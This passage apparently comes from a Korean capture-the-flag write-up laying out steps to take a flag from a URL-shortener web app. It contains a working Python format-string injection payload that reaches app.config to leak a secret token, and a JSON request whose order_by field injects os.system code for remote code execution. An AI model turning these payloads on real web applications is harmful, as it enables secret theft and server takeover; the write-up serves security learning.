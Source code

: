 ![image.png](images/image-017.png)

따라서 웹 서비스가 초기화 된 상태(= 데이터베이스 초기화)에서 RCE를 수행해야 하며 최종적으로 플래그 획득은 아래의 과정을 수행해야 합니다.

✅ 플래그 획득 과정

1. 웹 서비스 초기화(= 데이터베이스 초기화)
2. `app.config["TOKEN"]`(이하, 토큰)을 조회하기 위해 아래의 Format String Injection 취약점이 발생하는 URL을 단축 URL로 생성
    
    ```
    https://x.com/{self._sa_class_manager._state_constructor._attached.__init__.__globals__[sys].modules[__main__].app.config}
    ```
    
3. URL `/all` 요청을 통해 토큰 값 획득
4. 획득한 토큰 값과 `ukwargs`, `pkwargs` 값에 RCE 페이로드를 삽입한 아래의 요청 페이로드를 URL `/configure` 에 요청(참고로, `pkwargs` 는 로그인한 사용자의 링크 목록과 관련된 값 이므로 `ukwargs` 만을 사용했습니다.)
    
    ```json
    {
      "token": "획득한 토큰 값",
      "base_url": "",
      "ukwargs": {
        "order_by": "__import__('os').system('cp /*.txt templates/sponsors.html')"
      },
      "pkwargs": {}
    }
    ```
    